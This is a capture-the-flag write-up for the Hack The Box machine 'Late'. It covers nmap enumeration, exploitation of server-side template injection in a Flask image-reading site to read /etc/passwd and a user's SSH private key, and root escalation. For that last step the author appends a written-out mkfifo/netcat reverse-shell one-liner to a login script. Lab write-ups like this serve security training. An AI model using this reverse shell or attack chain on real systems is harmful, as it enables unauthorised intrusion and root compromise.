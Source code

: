 Late Htb Writeup
---

![late](https://user-images.githubusercontent.com/96860148/172097378-e0db8140-3297-481a-af43-f5d7f98e4773.png)

1.Enumeration
---

nmap
~~~
┌──(wolf㉿piratesec)-[~/Htb/late]
└─$ nmap --min-rate 10000 -p- 10.129.227.134 -oN nmap   
Starting Nmap 7.92 ( https://nmap.org ) at 2022-06-06 03:58 EDT
Warning: 10.129.227.134 giving up on port because retransmission cap hit (10).
Nmap scan report for 10.129.227.134
Host is up (0.19s latency).
Not shown: 58789 closed tcp ports (conn-refused), 6744 filtered tcp ports (no-response)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 41.48 seconds
~~~

The nmap scan did not give much results and port 80 will be our foothold.

### port 80
Looking around in the web server I find a link to an online photo editor.

![editor](https://user-images.githubusercontent.com/96860148/172098611-ae7eddec-8fc3-42b2-a824-60baf33d2f6b.png)

Heading there I'm taken to **images.late.htb** . Time to add it to /etc/hosts
~~~
10.129.227.134  late.htb
10.129.227.134  images.late.htb
~~~

#### Images.late.htb

![images late](https://user-images.githubusercontent.com/96860148/172099127-386d6e77-c092-45a0-b25c-4c31d4a3d745.png)

I uploaded this picture

![late](https://user-images.githubusercontent.com/96860148/172097378-e0db8140-3297-481a-af43-f5d7f98e4773.png)

and got back results,txt which had...

![results](https://user-images.githubusercontent.com/96860148/172099605-5b3f70a9-ad75-4df3-b436-4a3d9508bdc8.png)

This smelled of SSTI....

# [SSTI (From Hacktricks)](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection)

A server-side template injection occurs when an attacker is able to use native template syntax to inject a malicious payload into a template, which is then executed server-side.

## Detect

The simplest initial approach is to try fuzzing the template by injecting a sequence of special characters commonly used in template expressions, such as the polyglot ${{<%[%'"}}%\.

Detect - Plaintext context

The given input is being rendered and reflected into the response. This is easily mistaken for a simple XSS vulnerability, but it's easy to differentiate if you try to set mathematical operations within a template expression:

So i'm going to use this image with mathematical operations to see if the site is vulnerable to SSTI...

![payload](https://user-images.githubusercontent.com/96860148/172100440-b2844de1-704e-45c9-b84b-76b0c93addfe.png)

Which gives back ...

![results1](https://user-images.githubusercontent.com/96860148/172100701-9b66cc81-abce-4422-b62c-c1558535d99d.png)

The site is vulnerable to SSTI..

2 Foothold
---
## Exploitation

Since it's a flask application I'll try to read the contents of the /etc/passwd using this payload

![payload1](https://user-images.githubusercontent.com/96860148/172102020-3fb83062-2510-454e-8573-3afa50eb1ae6.png)

Which gives me
~~~
<p>o
7 root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd/netif:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd/resolve:/usr/sbin/nologin
syslog:x:102:106::/home/syslog:/usr/sbin/nologin
messagebus:x:103:107::/nonexistent:/usr/sbin/nologin
_apt:x:104:65534::/nonexistent:/usr/sbin/nologin
lxd:x:105:65534::/var/lib/lxd/:/bin/false
uuidd:x:106:110::/run/uuidd:/usr/sbin/nologin
dnsmasq:x:107:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
landscape:x:108:112::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:109:1::/var/cache/pollinate:/bin/false
sshd:x:110:65534::/run/sshd:/usr/sbin/nologin
svc_acc:x:1000:1000:Service Account:/home/svc_acc:/bin/bash
rtkit:x:111:114:RealtimeKit,,,:/proc:/usr/sbin/nologin
usbmux:x:112:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
avahi:x:113:116:Avahi mDNS daemon,,,:/var/run/avahi-daemon:/usr/sbin/nologin
cups-pk-helper:x:114:117:user for cups-pk-helper service,,,:/home/cups-pk-helper:/usr/sbin/nologin
saned:x:115:119::/var/lib/saned:/usr/sbin/nologin
colord:x:116:120:colord colour management daemon,,,:/var/lib/colord:/usr/sbin/nologin
pulse:x:117:121:PulseAudio daemon,,,:/var/run/pulse:/usr/sbin/nologin
geoclue:x:118:123::/var/lib/geoclue:/usr/sbin/nologin
smmta:x:119:124:Mail Transfer Agent,,,:/var/lib/sendmail:/usr/sbin/nologin
smmsp:x:120:125:Mail Submission Program,,,:/var/lib/sendmail:/usr/sbin/nologin

</p>
~~~

Looking in the /etc/passwd file I can see there is a user called **sc_acc**. Remember port 22 was open from the nmap scan. I'll try to read svc_acc's ssh private key...

The payload...

![1](https://user-images.githubusercontent.com/96860148/172102374-39d23e05-45f4-476d-994f-31d899a29ef6.png)

And voila...the private key..

![key](https://user-images.githubusercontent.com/96860148/172102500-0f158cb9-efd1-4df5-aecb-45260137c4ac.png)

I give the key necessary permissions **chmod +600 rsa** and use it to login to ssh and read the user flag.

![ssh](https://user-images.githubusercontent.com/96860148/172103225-76eaadfe-986b-42b3-936e-66fb05f4303b.png)


3 Privesc
---
Enter linpeas

I'm going to start a python server on my local machine to transfer linpeas to the compromised machine and try to look for ways to escalate priviledges..

![python](https://user-images.githubusercontent.com/96860148/172104066-efd5cdf1-01da-4363-9b2f-63cb82f1d06e.png)

Then use curl to get the file

![curl](https://i.imgur.com/NzEHzqz.png)

Looking at the output of linpeas and using this guide..

![help](https://i.imgur.com/0TRtKpB.png)

I find this interesting file..

![file](https://i.imgur.com/Zh6Z9Qx.png)

Rading the contents of the file, the script runs every time a user logins or exits in. I'll append a reverse shell to the script to see if I'll get something

~~~
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.14.47 1234 >/tmp/f" >> ssh-alert.sh
~~~
Along the way I got some minor issues and reset the machine to get it as good as new.

I start a netcat listener on my local machine and when I exit from my ssh session, I get a reverse shell..as ROOT !!

![rev](https://i.imgur.com/m2FfaMN.png)

